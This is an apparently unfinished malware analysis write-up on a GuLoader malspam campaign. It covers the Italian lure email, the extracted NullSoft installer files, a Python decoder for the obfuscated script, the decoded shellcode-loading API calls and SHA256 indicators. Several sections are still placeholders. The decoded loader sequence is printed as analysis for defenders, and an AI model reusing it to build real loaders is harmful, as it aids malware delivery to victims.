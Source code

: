 # Destroying GuLoader


## Situation

Placeholder

### Key Points
- Placeholder
- Placeholder
- Placeholder

Placeholder

## Infection Chain

### Malspam Email

The infection chain starts with an email purporting to be from Dr. S. Susan (PHD) University of Trento, a university recognized for its significant accomplishments in teaching, research. The email contains the attachment `Richiesta Preventivo: (ISGB) 7788EU - 0605ITA.pdf.zip`. The attached file has a double extension likely in an attempt of have the user open the file once downloaded (Figure placeholder).

![GuLoader Malspam](images/a7810c71deae0934508e2e0e6173720de3dc4af99b94ac73f799d641a5df4160.jpg)
*Figure placeholder. Malspam Email in Italian*

The Italian language used in the pretext is poor and was directly translated to English, showcasing the lack of knowledge in Italian (Figure placeholder).

```text
Good morning sir/madame

greetings from the university of Trento

we of trento university, would be happy to make business with you in future, but before, we want to attach you the products we are intrested in.

We would be grateful if you could give us the better price and answer us fast.
Your answer is very needed.

Thanks a lot.
```
*Figure placeholder. Email Translated to English (GenericSkid)*

### NullSoft Installer

Once the `Richiesta Preventivo: (ISGB) 7788EU - 0605ITA.pdf.zip` has been extracted, the NullSoft Installer `Richiesta Preventivo (ISGB) 7788EU - 0605ITA·pdf.exe` is extracted in the same directory. Next, the resulting executable file can be extracted using 7zip to obtain the NullSoft Installer script and contained files (Figure placeholder).

```text
b2d2f116713950b0742c2cb384c0377ac414be769d317f9e246ecb66730c889d/
├── $PLUGINSDIR
│   └── System.dll
├── Halmen
│   └── Muculent
│       └── Coracoradialis
│           └── Maskulin
│               ├── regentpar.lyn
│               └── salmerne.pia
├── slutchy.lob
├── Tyros
│   └── Nulrendes
│       └── Trofens153
│           └── Stauromedusan
│               ├── Ardilla.Fra
│               ├── Copart.moo
│               └── stte.Kvi
├── Velchanos235
│   └── Sproghistorie198
│       └── brevbrerne.amy
└── Ydergrnsernes
    └── Protodermal
        └── telsonic
            └── Paternalisme
                ├── spillefugles.sle
                └── vorlages.dds
```
*Figure Placeholder. Extracted NullSoft Installer Files*

### NullSoft Installer Script

Once executed, the NullSoft Installer write the file `%USERPROFILE%\gastrotrich\Tyros\Nulrendes\Trofens153\Stauromedusan\stte.Kvi` and obtains its handle. Next, the NullSoft Installer seeks in the file to the offset `41000`. Once completed, the NullSoft Installer reads one byte from the file then increments file pointer ahead by `414` bytes.

```python
def decode(file_path, offset, increment, delimiter):
    data = bytearray(open(file_path, 'rb').read())
    result = ''
    for i in range(offset, len(data), increment):
        if data[i] != ord(delimiter): result += chr(data[i])
        else: result += '\n'
    return '\n'.join([x for x in result.splitlines() if '::' in x])
```
*Figure placeholder. NullSoft Installer Decoding Algorithm for `stte.Kvi`*

```c
user32::ShowWindow(ir3,i0)
kernel32::CreateFileA(m r4 , i 0x80000000, i 0, p 0, i 4, i 0x80, i 0)i.r5
kernel32::SetFilePointer(i r5, i 963101 , i 0,i 0)i.r3
kernel32::VirtualAlloc(i 0,i 75603968, i 0x3000, i 0x40)p.r6
kernel32::ReadFile(i r5, i r6, i 75603968,*i 0, i 0)i.r3
user32::EnumWindows(i r6 ,i 0)
```
Figure placeholder. Decoded Output

## Indicators of Compromise

| Type   | Indicator                                                        | Description                                                                 |
| ------ | ---------------------------------------------------------------- | --------------------------------------------------------------------------- |
| SHA256 | f10f3adda4426ff71c0fbcb9f3ccdd0d46733e3661921d0048435bc9788c93f0 | Initial Malspam ZIP                                                         |
| SHA256 | b2d2f116713950b0742c2cb384c0377ac414be769d317f9e246ecb66730c889d | NullSoft Installer (`Richiesta Preventivo (ISGB) 7788EU - 0605ITA·pdf.exe`) |
| SHA256 | 83efb1c950c2af84ba48b9621f9f66dc097bfb73fc0dad13c55f63ee4c8797a9 | NullSoft Installer Icon                                                     |
| SHA256 | a632d74332b3f08f834c732a103dafeb09a540823a2217ca7f49159755e8f1d7 | System.dll (Legit NullSoft Plugin)                                          |
| SHA256 | f0846139e76fe25254efed718dc9b547ebafd020bffce0d1c2311ec417a4a073 | NSIS Script                                                                 |
| SHA256 | a6f2e76f42072921eb65888d0b333f216928319be26bea6498d2be1cd495a1c7 | NullSoft Installer Encoded Shellcode (stte.Kvi)                             | 

## Mitre Attack TTPs

| ID          | Tactic      | Technique   | Description |
| ----------- | ----------- | ----------- | ----------- |
| Placeholder | placeholder | placeholder | placeholder            |

## References
- https://app.any.run/tasks/e34cec9f-59cc-4ffe-845c-15b8357c3676/
- https://bazaar.abuse.ch/sample/f10f3adda4426ff71c0fbcb9f3ccdd0d46733e3661921d0048435bc9788c93f0/
- https://twitter.com/JAMESWT_MHT/status/1678703395991961605
- https://nsis.sourceforge.io/Reference/

# Contributors
- [whichbuffer](https://twitter.com/WhichbufferArda)
- irfaneternal
- GenericSkid
